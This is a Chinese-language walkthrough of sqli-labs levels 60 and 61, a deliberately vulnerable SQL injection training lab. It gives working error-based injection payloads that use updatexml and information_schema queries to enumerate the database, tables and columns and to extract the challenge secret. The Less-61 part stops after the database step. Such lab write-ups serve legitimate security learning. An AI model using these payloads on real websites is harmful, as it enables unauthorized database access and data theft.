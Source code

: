 
# Sqli-labs-Less-60

![](https://img-blog.csdnimg.cn/20200728105744107.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=gtQ2h&originHeight=471&originWidth=1099&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
本关对输入次数的限制为5次，不做过多解释，直接使用报错注入<br />**判断注入点**<br />[_http://www.web.com/sql/Less-60/?id=1_](http://www.web.com/sql/Less-60/?id=1)_"_<br />报错，并显示我们少了一个)，存在注入<br />![](https://img-blog.csdnimg.cn/20200728110131870.png#crop=0&crop=0&crop=1&crop=1&id=W3azf&originHeight=37&originWidth=1240&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看数据库**<br />[_http://www.web.com/sql/Less-60/?id=1_](http://www.web.com/sql/Less-60/?id=1)_") and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+_<br />![](https://img-blog.csdnimg.cn/2020072811022722.png#crop=0&crop=0&crop=1&crop=1&id=nj8Bc&originHeight=151&originWidth=298&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查看表**<br />[_http://www.web.com/sql/Less-60/?id=1_](http://www.web.com/sql/Less-60/?id=1)_") and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+_<br />![](https://img-blog.csdnimg.cn/20200728110538268.png#crop=0&crop=0&crop=1&crop=1&id=b6d6e&originHeight=164&originWidth=293&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看字段**<br />[_http://www.web.com/sql/Less-60/?id=1_](http://www.web.com/sql/Less-60/?id=1)_") and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='5uur039ahk'),0x7e),1)--+_<br />![](https://img-blog.csdnimg.cn/20200728110626370.png#crop=0&crop=0&crop=1&crop=1&id=qC2RS&originHeight=162&originWidth=389&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看密码**<br />[_http://www.web.com/sql/Less-60/?id=1_](http://www.web.com/sql/Less-60/?id=1)_") and updatexml(1,concat(0x7e,(select group_concat(secret_GRR2) from challenges.5uur039ahk),0x7e),1)--+_<br />![](https://img-blog.csdnimg.cn/20200728110707895.png#crop=0&crop=0&crop=1&crop=1&id=Uk7jj&originHeight=168&originWidth=456&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**将得到的密码输入到下面的方框中进行验证**<br />![](https://img-blog.csdnimg.cn/20200728110722236.png#crop=0&crop=0&crop=1&crop=1&id=Apk3Q&originHeight=42&originWidth=428&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**成功**<br />![](https://img-blog.csdnimg.cn/20200728110737708.png#crop=0&crop=0&crop=1&crop=1&id=G6LDI&originHeight=199&originWidth=789&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# Sqli-labs-Less-61
![](https://img-blog.csdnimg.cn/20200728111634624.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=jFgqv&originHeight=488&originWidth=1117&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
本关对输入次数的限制为5次，不做过多解释，直接使用报错注入

**查找注入点**<br />http://www.web.com/sql/Less-61/?id=1'<br />报错，并显示我们少了))，存在注入点<br />![](https://img-blog.csdnimg.cn/20200728111931885.png#crop=0&crop=0&crop=1&crop=1&id=x10gl&originHeight=37&originWidth=1269&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看数据库**<br />http://www.web.com/sql/Less-61/?id=1')) and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200728112034403.png#crop=0&crop=0&crop=1&crop=1&id=Ajohu&originHeight=153&originWidth=284&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
